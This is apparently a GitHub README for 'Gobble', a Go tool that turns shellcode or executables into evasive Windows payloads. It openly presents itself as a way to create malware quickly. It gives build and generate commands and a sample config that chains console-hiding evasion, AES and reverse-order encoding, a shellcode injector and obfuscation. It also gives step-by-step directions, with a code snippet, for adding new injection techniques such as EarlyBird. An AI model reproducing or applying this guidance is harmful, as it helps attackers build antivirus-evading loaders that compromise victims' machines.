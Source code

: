 <p align="center">
  <img src="https://user-images.githubusercontent.com/75705022/212419130-d4665a94-da84-41de-b036-68b185d20f67.png" />
</p>
Gobble is a combination of Golang projects, featuring the skeleton of [Uru](https://github.com/guervild/uru) and meat consisting of either original content or inspiration from Tim Whitez's [Doge-Gabh](https://github.com/timwhitez/Doge-Gabh). To learn more about creating malware quickly and effectively, please check out both the Uru and Doge-Gabh repositories.

## Installation
```
git clone https://github.com/loosehose/gobble.git
cd gobble
go build
```
## Usage
```
GOOS=windows ./gobble generate -c config.yml -p beacon.bin
```

### Generate
Taken from Uru:

```
Take as input a config and a given payload file to generate a payload.

Usage:
  uru generate [flags]

Flags:
      --class string                   .Net Class to call (use with donut)
      --clearheader                    Remove peheader of the payload if set (use with srdi)
  -c, --config string                  Config file that definied the modules to use
      --donut                          Process the given payload as an executable using go-donut
      --functionname string            Methods to call if .Net payload (with donut) or Function name to call after DLL Main (with srdi)
  -h, --help                           help for generate
  -o, --output string                  Output file name
      --parameters string              Parameters to pass to the payload (use with donut/srdi)
  -p, --payload Shellcode/Executable   Shellcode/Executable to use in the generated payload
      --srdi                           Convert dll into a position independant code that uses a rdll loader to execute the dll entrypoint.
```

### Config.yml (Example)

```
payload:
  artifacts:
    - name: hideconsole
      type: evasion
    - name: aes
      type: encoder
      args:
        - name: Key
          value: "dNJFi4GmAl9rz3CqBpftNoJy"
    - name: reverse-order
      type: encoder
    - name: windows/native/local/SpfGateCreateThread
      type: injector
  #sgn: false #must be decommented in the code to be used
  type: exe
  arch: x64
  debug: false
  obfuscation: true #need garble to be installed
```
## DIY
Assume your goal is to add injection methods to this project. This can easily be accomplished by using the following steps:

To add injection methods to this project, follow these steps:

1. Go to the data/injector/windows/[bananaphone/native]/local/ directory.

2. Create a new folder with the name of the malware (e.g. EarlyBird).

3. Within the new folder, create two files: functions.go.tmpl and instanciation.go.tmpl. The functions.go.tmpl file will contain the actual malware code, while the instanciation.go.tmpl file specifies where the code execution begins.

4. Once the malware code is complete, navigate to pkg/injector/[bananaphone/native]/ and create a new file with the same name as the malware folder (e.g. EarlyBird.go).

5. Populate this file by copying and modifying an existing template in this directory, including changing function names and importing necessary packages.

6. In the pkg folder, locate the injectorFactory.go file and add the following code:

   ```
   if injectorType == "windows/native/local/EarlyBird" {
   		return native.NewEarlyBird(), nil
   }
   ```

7. Save all changes and rebuild the project using `go build` before testing the newly added code.

## Common Errors
To solve issues on non-Windows operating systems, use the following syntax: 

`GOOS=windows ./gobble generate ...` 

If a package is causing problems, such as this error message: 

`FTL Error during build: error exit status 1: go list error: exit status 1: go build github.com/timwhitez/Doge-Gabh/pkg/Gabh: no Go files in` 

A possible solution is to manually copy the generated file from the output message: `INF Payload file has been written path=/path/to/file.go` and then build it using the following command: `GOOS=windows go build /path/to/file.go` 

This workaround can help to build the package successfully.
